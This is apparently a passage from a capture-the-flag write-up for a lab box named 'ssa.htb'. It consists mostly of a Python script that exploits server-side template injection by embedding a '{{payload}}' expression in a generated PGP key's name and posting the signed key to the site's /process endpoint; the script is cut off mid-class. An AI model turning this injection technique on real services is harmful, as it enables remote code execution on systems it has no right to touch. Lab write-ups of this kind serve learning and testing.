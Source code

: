 To automate the process, we write the following script using `python-gnupg` and `cmd` modules:

```python
#!/usr/bin/python3

import cmd
import requests
import logging
import shlex
import gnupg
from subprocess import Popen, PIPE
from bs4 import BeautifulSoup as bs

requests.packages.urllib3.disable_warnings()
logger = logging.getLogger(__name__)

class Exploit(cmd.Cmd):
    def __init__(self):
        super().__init__()
        self.proxies = {
                'https':'http://localhost:8080'
                }
        self.url = 'https://ssa.htb'
        self.getPGP()
        self.gpg = gnupg.GPG()
        self.secret = 's3cret'

    def get(self, *kargs, **kw):
        res = requests.get(*kargs, verify=False, proxies=self.proxies, **kw)
        return res

    def post(self, *kargs, **kw):
        res = requests.post(*kargs, verify=False, proxies=self.proxies, **kw)
        return res

    def getPGP(self):
        res = self.get(self.url + '/pgp')
        pgp = bs(res.text, 'lxml').select('pre')[0].text
        print(pgp)
        with open('ssa.pgp', 'w') as o:
            logger.debug(f"got pgp {pgp[:100]}")
            o.write(pgp)
        pGPExists = b'atlas@ssa.htb' in Popen(shlex.split('gpg --list-keys'), stdout=PIPE).communicate()[0]
        logger.debug(f"target's PGP exists:{pGPExists}")

        if not pGPExists:
            Popen(shlex.split('gpg --import ssa.pgp'))

    def inject(self, payload):
        name = "Python--->{{%s}}" % payload
        logger.debug(f"name {name}")
        key = self.gpg.gen_key(self.gpg.gen_key_input(name_real=name, name_email='lala@example.com', passphrase=self.secret))
        signed = self.gpg.sign('hello', keyid=key.fingerprint, passphrase=self.secret).data

        data = {
                'signed_text': signed,
                'public_key': self.gpg.export_keys(key.fingerprint)
                }
        res = self.post(self.url + '/process', data = data)
        print(res.text)

    def default(self, cmd):
```